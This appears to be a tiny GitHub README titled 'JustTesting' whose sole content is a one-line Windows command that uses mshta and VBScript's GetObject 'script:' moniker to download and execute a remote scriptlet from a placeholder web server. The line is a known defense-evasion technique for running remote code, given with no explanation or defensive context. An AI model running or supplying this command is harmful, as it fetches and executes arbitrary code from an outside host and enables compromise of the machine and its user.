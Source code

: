# JustTesting

mshta vbscript:Close(Execute("GetObject(""script:http://webserver/scriplet.sct"")"))

